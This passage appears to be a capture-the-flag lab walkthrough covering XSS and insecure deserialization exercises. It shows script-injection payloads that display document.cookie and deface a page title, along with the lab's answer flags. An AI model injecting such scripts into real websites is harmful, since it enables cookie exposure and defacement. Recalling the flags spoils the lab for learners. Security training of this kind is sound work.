 #### **On the same page, create an alert popup box appear on the page with your document cookies.**

```markup
<script>alert(document.cookie)</script>
```

![](<../../.gitbook/assets/Screenshot from 2020-08-26 22-15-00.png>)

{% hint style="success" %}
`W3LL_D0N3_LVL2`
{% endhint %}

#### **Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.**

```markup
<script>document.getElementById("thm-title").textContent="I am a hacker"</script>
```

![](<../../.gitbook/assets/Screenshot from 2020-08-26 22-18-22.png>)

{% hint style="success" %}
`websites_can_be_easily_defaced_with_xss`
{% endhint %}

## \[Severity 8] Insecure Deserialization

#### &#x20;**#1 Who developed the Tomcat application?**

{% hint style="success" %}
`The Apache Software Foundation`
{% endhint %}

#### #2 **What type of attack that crashes services can be performed with insecure deserialization?**

{% hint style="success" %}
`Denial of Service`
{% endhint %}

## \[Severity 8] Insecure Deserialization - Objects
